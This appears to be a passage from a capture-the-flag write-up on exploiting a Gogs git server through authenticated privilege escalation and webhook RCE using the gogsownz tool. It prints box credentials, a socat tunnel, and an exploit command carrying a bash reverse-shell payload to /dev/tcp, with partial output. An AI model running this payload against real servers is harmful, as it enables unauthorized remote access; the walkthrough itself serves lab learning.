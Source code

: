 #### Gogs Background

[Gogs](https://gogs.io/) is a self-hosted git instance. Basically think
of GitHub, but open source and that you can host yourself. There are
several CVEs for Gogs that I'll check out, and [this
GitHub](https://github.com/TheZ3ro/gogsownz) has a good tool to exploit
two of them. The background in this vulnerability (and much more) is in
[this
presentation](https://2018.zeronights.ru/wp-content/uploads/materials/17-Who-owned-your-code.pdf),
but basically as an admin user you can create a webhook which will run
on commit which is basically RCE.

#### Authentication

First, I need to log in to the application. I'll check a list of
credentials I've collected from the box so far. I havfe a good feeling
the user will be aogiritest, based on the `to-do.txt` I found earlier.
After some guessing and password hunting on the containers I had access
to, I managed to log in with "aogiritest" / "test@aogiri123" (password
from Aogiri box `/usr/share/tomcat7/conf/tomcat-users.xml`).

### Shell

First I need to set up a tunnel. I'll upload `socat` to the box. I'll
also notice that kaneki-pc can talk directly to my kali host, so I'll
just set up a `socat` tunnel there that listens and forwards back to me.
(In later testing I'll actually show that Gogs can talk directly back to
me, but this is still safer when you don't know.)



    kaneki_pub@kaneki-pc:/tmp$ ./.socat tcp-listen:9001,reuseaddr,fork tcp:10.10.14.7:9001 &
    [1] 2278



Now I can use
https://github.com/TheZ3ro/gogsownz/blob/master/gogsownz.py. A couple
things to note:

1\) changed line 91 to `if len(cookies) < 1:` instead of
`if len(cookies) != 1:`

2\) changed all instances of `self.username not in resp` to
`self.username not in resp.lower()`. That's because `aogiritest` logs in
as a valid username, but "AogiriTest" shows up in the page. So the
script will fail thinking the username didn't come back, when in fact,
it did, just with camelcase. Alternatively, I could just use the
camelcase username to login.

Run it:



    root@kali:/opt/gogsownz# python3 gogsownz.py http://127.0.0.1:3000/ -v --creds 'aogiritest:test@aogiri123' --rce "bash -c 'bash -i >& /dev/tcp/172.18.0.200/9001 0>&1'" --cleanup --burp                                   
    [i] Starting Gogsownz on: http://127.0.0.1:3000
    [+] Loading Gogs homepage
    [i] Gogs Version installed: © 2018 Gogs Version: 0.11.66.0916
    [i] The Server is redirecting on the login page. Probably REQUIRE_SIGNIN_VIEW is enabled so you will need an account.                                                                                                      
    [+] Performing login
    [+] Logged in successfully as aogiritest
    [+] Got UserID 2
    [+] Repository created successfully
    [i] Exploiting authenticated PrivEsc...
    [+] Uploading admin session as repository file
    [+] Uploaded successfully.
    [+] Committing the Admin session
    [+] Committed successfully